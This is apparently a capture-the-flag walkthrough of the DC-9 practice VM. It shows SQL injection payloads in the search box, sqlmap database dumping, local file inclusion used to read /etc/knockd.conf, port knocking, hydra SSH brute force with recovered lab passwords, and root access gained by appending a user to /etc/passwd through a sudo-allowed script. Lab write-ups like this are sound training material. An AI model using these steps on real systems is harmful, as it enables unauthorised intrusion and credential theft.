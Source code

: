 # DC-9



## nmap

![image-20200816162854260](DC-9.assets/image-20200816162854260.png)

#### ip

```
192.168.167.133
```



#### enumeration

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Example.com - Staff Details - Welcome

only http is open





## httpEnumeration

search box is vulnerable to sqlinjection

![image-20200816164636618](DC-9.assets/image-20200816164636618.png)





#### sql injection

manually inserted some sql quiries to get see if there is sql injection

````
' or 1=1 -- -
````

![image-20200816164738365](DC-9.assets/image-20200816164738365.png)



enumerating version 

```
' or 1 = 1 union select @@version,2,3,4,5,6
```



![image-20200816164835679](DC-9.assets/image-20200816164835679.png)



#### sqlmap

- using sqlmap to get all the details
- copy the contents of request
- and pass it to sqlmap with -r flag

![image-20200816165105902](DC-9.assets/image-20200816165105902.png)



- sqlmap -r to give the post req.
- --dbs to identify backend dbms.
- --batch to not prompt for any user input and automate the task entirely.

```
sqlmap -r req --dbs --batch
```



![image-20200816170601062](DC-9.assets/image-20200816170601062.png)



- there are 3 databses 
- backend is running MySQL

##### staff

dumping details of database staff and users

![image-20200816170849816](DC-9.assets/image-20200816170849816.png)

![image-20200816170943328](/home/manish/.config/Typora/typora-user-images/image-20200816170943328.png)

##### users table

![image-20200816171023236](DC-9.assets/image-20200816171023236.png)



## hash cracking 

lets crack password of admin user

hashcat did not gave any result

tried crackstation and got  the credentials

![image-20200816171349668](DC-9.assets/image-20200816171349668.png)



#### credentials

admin		transorbital1



## httpEnumeration



logging in with the credentials

we got a local file inclusion with manage.php

![image-20200816172428550](DC-9.assets/image-20200816172428550.png)



#### port knock

````
port knocking sequence at /etc/knockd.conf
````



![image-20200816172557527](DC-9.assets/image-20200816172557527.png)



```
sequence 	7469, 8475, 9842
```



before port knocking

![image-20200816173050601](DC-9.assets/image-20200816173050601.png)



after port knocking

![image-20200816173111036](DC-9.assets/image-20200816173111036.png)



## exploit



#### hydra



lets brute force the password and id we got from Users database

![image-20200816173759062](DC-9.assets/image-20200816173759062.png)

```
[22][ssh] host: 192.168.167.133   login: chandlerb   password: UrAG0D!
[22][ssh] host: 192.168.167.133   login: joeyt   password: Passw0rd
[22][ssh] host: 192.168.167.133   login: janitor   password: Ilovepeepee
```



## post



#### enumeration

found new credentials in user janitors account

![image-20200816174304111](DC-9.assets/image-20200816174304111.png)



#### hydra

using hydra to bruteforce with these credentials

![image-20200816174649375](DC-9.assets/image-20200816174649375.png)

found 2 valid credentials



#### fredf

this user can run following command with no password

![image-20200816174742198](DC-9.assets/image-20200816174742198.png)



this code is getting a file and appending it to another

![image-20200816175319155](DC-9.assets/image-20200816175319155.png)



we can create a new user and append it to /etc/passwd with root privileges

![image-20200816175917349](DC-9.assets/image-20200816175917349.png)



## root

![image-20200816180019910](DC-9.assets/image-20200816180019910.png)